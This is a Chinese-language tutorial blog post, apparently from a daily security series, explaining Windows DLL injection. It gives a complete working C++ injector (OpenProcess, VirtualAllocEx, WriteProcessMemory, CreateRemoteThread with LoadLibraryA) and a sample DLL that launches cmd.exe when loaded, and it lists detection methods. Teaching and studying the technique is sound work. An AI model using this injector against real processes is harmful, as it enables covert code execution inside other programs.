 # 【Day 06】致不滅的 DLL - DLL Injection

## 環境與工具
* Windows 10 21H1
* Process Explorer v16.32
* Visual Studio 2019

## Internal vs External
要了解 internal hack 跟 external hack 的差別，首先要知道 process 的概念。

這邊要知道的只有兩件事：
* process 是執行中的 program，只有在執行之後，檔案中的資料才會被搬到記憶體中
* 每個 process 都有自己的地址空間，包含 text region, data region, stack region

綜合以上兩件事，應該就能理解 internal 和 external 的差別。假設現在有個目標 process，前者的做法是相當於直接在目標 process 的內部操作記憶體；後者則是從另一個 process 去讀取或寫入目標 process。

既然不管是 internal 還是 external，目的都是去操作目標 process 的記憶體，那用哪個有什麼差別？

|              | Internal Hack | External Hack |
| ------------ | ------------- | ------------- |
| 執行速度       | 快            | 慢            |
| 能做到的事情    | 多             | 少            |
| 被偵測到的可能性 | 有各種方法可以讓載入行為不容易被發現 | 高 |

基本上看上表就可以知道 external 的方法就只有在要做的事情很少，比如說只是要 patch 幾個 byte 的情況下才會使用。如果要做比較複雜，而且行跡比較隱密的操作，一般會使用 internal。

今天的主題，樸實無華的 DLL Injection，也是一般最常見的 DLL Injection，就是一種 internal hack。

## DLL Injection
### 簡介
第一次聽到 DLL Injection，不確定有沒有人跟我以前一樣覺得它是 SQL Injection 的好朋友，然而它們在做法與觀念上都相差很多。

打開 Sysinternals 的 procexp.exe / procexe64.exe，這工具 - process explorer 可以看到許多目前正在運行的 process，隨意點一個 process 後下方會顯示這個 process 所用的 handle，其中也包含許多 DLL。
![](https://i.imgur.com/3PG0AXw.png)

DLL Injection 做的事情就是將 DLL 載入目標 process，載入的 DLL 就可以在目標 process 中執行，並達到使用者的目的。等等在做完 DLL Injection 後，用 process explorer 可以在目標 process 中看到載入的 DLL。


### 實作流程
1. 取得目標 process 的 handle
2. 申請一塊目標 process 的記憶體
3. 將要注入 dll 路徑字串寫入目標 process
4. 從 kernel32.dll 取出其中的函數 `LoadLibraryA`
5. 在目標 process 新開一個 thread，並執行 `LoadLibraryA(<要注入的 dll>)`

### POC
裡面的註解基本上就是實作流程，遇到不熟的函數可以直接翻 MSDN，完整專案可以看我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/%E8%87%B4%E4%B8%8D%E6%BB%85%E7%9A%84DLL)。 
```cpp=
#include <windows.h>
#include <stdio.h>

// dll 路徑根據自己放的位置填
char dllname[150] = "<Path To DLL File>";
// pid 可以自己選，我是選 explorer.exe
DWORD pid = 13772;

int main() {
    // 1. 取得目標 process 的 handle
    HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    
    // 2. 申請一塊目標 process 的記憶體
    int size = strlen(dllname) + 5;
    PVOID procdlladdr = VirtualAllocEx(hprocess, NULL, size, MEM_COMMIT, PAGE_READWRITE);
    if (procdlladdr == NULL) {
        printf("handle %p VirtualAllocEx failed\n", hprocess);
        return 0;
    }
    
    // 3. 將要注入 dll 路徑字串寫入目標 process
    SIZE_T writenum;
    if (!WriteProcessMemory(hprocess, procdlladdr, dllname, size, &writenum)) {
        printf("handle %p WriteProcessMemory failed\n", hprocess);
        return 0;
    }
    
    // 4. 從 kernel32.dll 取出其中的函數 LoadLibraryA
    FARPROC loadfuncaddr = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
    if (!loadfuncaddr) {
        printf("handle %p GetProcAddress failed\n", hprocess);
        return 0;
    }
    
    // 5. 在目標 process 新開一個 thread，並執行 LoadLibraryA(<要注入的 dll>)
    HANDLE hthread = CreateRemoteThread(hprocess, NULL, 0, (LPTHREAD_START_ROUTINE)loadfuncaddr, (LPVOID)procdlladdr, 0, NULL);
    if (!hthread) {
        printf("handle %p CreateRemoteThread failed\n", hprocess);
        return 0;
    }

    CloseHandle(hthread);
    CloseHandle(hprocess);

    return 0;
}
```

這邊也意思意思放個 DLL，如果你不知道 DLL 要寫什麼的話
```cpp=
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        // 在 DLL 載入時執行 cmd.exe
        case DLL_PROCESS_ATTACH: {
            WinExec("cmd.exe", 1);
            break;
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

### 偵測
* 在 process 本身監控自己的 dll 載入
* 用 ETW 偵測 image load
* TLS callback

DLL Injection 不單純是紅隊會使用的技巧，一些工具、防毒軟體為了能夠更容易監控一些 process，也會使用到 DLL Injection，所以沒辦法直接利用有沒有 DLL Injection 就判斷一個軟體是不是惡意程式。

## 參考資料
[internal vs external](https://guidedhacking.com/threads/start-here-guide-for-internal-hacks-cheats.12838/?__cf_chl_captcha_tk__=pmd_Q4Nttx7B2pnNV5c6OGUR6dEqwWvJN5FwLHx8i0knGlQ-1629563259-0-gqNtZGzNAzujcnBszQkR)
[DLL Injector](https://guidedhacking.com/resources/guided-hacking-dll-injector.4/)
[process 概念](https://sls.weco.net/node/21323)
